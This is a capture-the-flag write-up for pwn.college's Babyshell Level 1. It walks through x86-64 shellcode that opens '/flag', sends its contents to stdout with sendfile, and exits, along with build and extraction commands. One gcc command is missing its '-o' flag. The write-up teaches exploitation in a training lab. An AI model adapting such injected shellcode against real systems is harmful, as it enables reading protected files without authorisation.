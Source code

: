 # Babyshell Level 1
This is the first challenge of the shellcoding modules from pwn.college, it seems to me like a pretty simple challenge... however make sure to watch the videos on youtube before trying to complete those !

## How the challenge works
We are basically asked to "inject position independant **shell**-code", we say position independant because the challenge base address change at every execution.

From our knowledge, we know that most of the time flag is stored in "/flag", this means we can write a shellcode to read and output us this file.

I highly hope you have a great understanding of syscalls so far, if not i highly recommend you go read [The Linux Programming Interface](https://man7.org/tlpi/) and [Understanding the Linux Kernel, 3rd Edition](https://www.oreilly.com/library/view/understanding-the-linux/0596005652/).

We will highly rely on syscalls on this module since it's pretty much the only thing we have at hands, we will rely specifically on **sys_open**, **sys_sendfile** and **sys_exit**.

As it looks pretty obvious, we will first **open** the file (file descriptor), **sendfile** to read the content of that file and send its output to a file descriptor and then **exit** the program cleanly.

## Solving the Challenge
I think we're ready to start writing shellcode, for this we will write a **.s** (source) file, compile it with gcc (**gcc -nostdlib -static solve.s solve**) and extract the **.text** section code (our shellcode), into another file (**objcopy --dump-section .text=shellcode solve**).

```x86asm
.global _start
_start:
.intel_syntax noprefix
    # Open file descriptor
    mov rsi, 0                  # flags
    lea rdi, [rip+flag]         # path name
    mov rax, 2                  # syscall number (sys_open)
    syscall                     # syscall (call into kernel)

    # Read
    mov rdi, 1                  # out_fd
    mov rsi, rax                # in_fd
    mov rdx, 0                  # offset
    mov r10, 100                # count
    mov rax, 40                 # syscall (sys_sendfile)
    syscall                     # call into the kernel
    
    # Exit
    mov rax, 60                 # syscall (sys_exit)
    mov rdi, 42                 # exit number
    syscall                     # syscall
flag:
    .ascii "/flag\0"
```

Execute the program with our ./shellcode redirected to stdin and we should win this challenge :)
